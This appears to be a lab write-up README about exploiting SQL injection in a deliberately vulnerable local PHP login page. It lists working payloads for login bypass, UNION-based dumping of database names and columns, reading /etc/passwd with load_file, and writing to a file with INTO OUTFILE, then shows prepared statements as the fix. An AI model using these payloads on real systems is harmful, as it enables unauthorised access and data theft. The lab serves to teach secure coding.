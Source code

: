 # 💉 SQL Injection (SQLi) Lab – Exploiting and Bypassing Insecure Queries

## 🎯 Objective  
Learn how to exploit SQL injection (SQLi) in a vulnerable web application to bypass authentication, extract data, and write output to a file. Understand how unsanitized inputs lead to full database compromise.

---

## 🛠Tools Used  
- Apache Web Server  
- PHP login form (`index.php`)  
- Firefox (localhost)  
- Terminal (vi editor, gedit)  
- Kali Linux / VMware

---

## Lab Setup & Navigation

```bash
cd /var/www
ls
cd sqlinjection/
ls
sudo vi index.php
```

Start/restart web server:
```bash
sudo service apache2 start
sudo service apache2 restart
```

Open the site in browser:
```
http://localhost/sqlinjection/index.php
```

---

## Vulnerable SQL Code (Inside `index.php`)
```php
$sql = "SELECT * FROM students WHERE uid = $_GET['uid']";
```

- This is vulnerable: directly inserting unsanitized user input.

If user inputs:
```
2019 OR 1=1
```
The query becomes:
```sql
SELECT * FROM students WHERE uid = 2019 OR 1=1;
```
- Returns all students (authentication bypassed).

---

## Manual SQL Injection Payloads

| Input                    | Purpose                        |
|-------------------------|--------------------------------|
| 2019 OR 1=1             | Return all rows (true query)   |
| `' OR '1'='1`           | Classic auth bypass            |
| `' OR 1=1 --`           | Bypass and comment rest        |
| `' OR '1'='1' --`       | Bypass with double quotes      |

---

## Login Bypass Scenarios

**If username is known but password is not:**  
- Input this in **Password** field:  
  ```
  ' OR '1'='1
  ```

**If neither username nor password is known:**  
- Input this in **Username** field:
  ```
  ' OR '1'='1'#
  ```

- This logs you in as the first user in the database.

---

## Writing Output to File (Advanced SQLi)

**Payload:**
```sql
' or '1'='1' into outfile '/tmp/sql.txt'#
```

Use in browser:
```
http://localhost/sqlinjection/index.php?uid=' or '1'='1' into outfile '/tmp/sql.txt'#
```

Check output:
```bash
cat /tmp/sql.txt
ls /tmp/
sudo gedit /tmp/sql.txt
```

⚠- Works only if MySQL has **FILE** privilege and permission to write to `/tmp`.

---

## Useful SQLi Payloads

| Payload                                                     | Purpose                           |
|-------------------------------------------------------------|-----------------------------------|
| `' OR 'a'='a`                                               | Always true                       |
| `' UNION SELECT null, version() --`                        | Show database version             |
| `' UNION SELECT null, user() --`                           | Show DB user                      |
| `' UNION SELECT table_name, null FROM information_schema.tables --` | Dump all table names     |
| `' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users' --` | Dump column names   |
| `' AND 1=0 UNION SELECT null, load_file('/etc/passwd') --` | Attempt to read system file       |
| `' OR 1=1 LIMIT 1 OFFSET 1 --`                              | Pagination for second user        |

---

## Secure Coding – Prevention

### Use **prepared statements**:
```php
$stmt = $pdo->prepare("SELECT * FROM students WHERE uid = :uid");
$stmt->bindParam(':uid', $_GET['uid']);
$stmt->execute();
```

### Additional protection:
- Validate and sanitize input  
- Escape special characters  
- Disable error details on production  
- Use least-privileged database accounts


